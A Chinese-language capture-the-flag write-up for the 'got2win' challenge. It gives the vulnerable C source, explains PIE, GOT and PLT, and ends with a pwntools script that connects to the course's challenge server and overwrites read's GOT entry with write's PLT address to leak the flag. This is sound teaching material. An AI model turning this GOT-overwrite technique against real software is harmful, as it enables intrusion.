



# got2win
題目的程式碼:  
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>

char flag[0x30];

int main()
{
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IONBF, 0);

    int fd = open("/home/chal/flag", O_RDONLY);
    read(fd, flag, 0x30);
    close(fd);
    write(1, "Good luck !\n", 13);

    unsigned long addr = 0;
    printf("Overwrite addr: ");
    scanf("%lu", &addr);
    printf("Overwrite 8 bytes value: ");
    read(0, (void *) addr, 0x8);

    printf("Give me fake flag: ");
    int nr = read(1, flag, 0x30);
    if (nr <= 0)
        exit(1);
    flag[nr - 1] = '\0';
    printf("This is your flag: ctf{%s}... Just kidding :)\n", flag);

    return 0;
}
```

## Analysis
程式做了幾件事:  
1. 開檔案，讀進buffer後關閉。  
2. 寫`"Good luck !\n"`進stdout  
3. 讓使用者輸入一個address  
4. 讓使用者複寫address的值  
5. read(1, flag, 0x30)  

<br>
可以注意到，在5. read的時候給的fd是1，也就是stdout，這是程式的一個bug，因此我們來利用他。  

## PIE
PIE(Position-Independent Executable)是能夠讓程式以相對位址來表示，這樣能夠提升程式的安全性。  

看看程式的build選項:  
`gcc -no-pie -o chal got2win.c`  
程式沒有開啟PIE，因此程式會使用絕對位址，這樣安全性就下降很多。  

## GOT PLT
GOT(Global Offset Table)與PLT(Procedure Linkage Table)是Linux底下的一個機制，  
主要用途就是處理外部function呼叫(dynamic link)。  
GOT就是儲存位址的一個表，而PLT則是放能夠resolve位址的程式。  
<br>
在這題裡面，如果能夠將GOT中read的位址複寫成write的PLT，就能夠把flag直接write到stdout了。  
<br><br>
首先使用ghidra來write的PLT的位址:  
  

再來使用pwndbg看GOT:  
  

read的GOT跟write的PLT都有之後，就可以來解了。  

## Solve
```python
import pwn

p = pwn.remote("edu-ctf.zoolab.org", 10004)

p.recvuntil(b"Overwrite addr: ")
p.sendline(str(0x404038).encode())

p.recvuntil(b"Overwrite 8 bytes value: ")
p.send(pwn.p64(0x4010c0))

p.recvuntil(b"Give me fake flag: ")

p.interactive()
```

## Result
執行結果:  
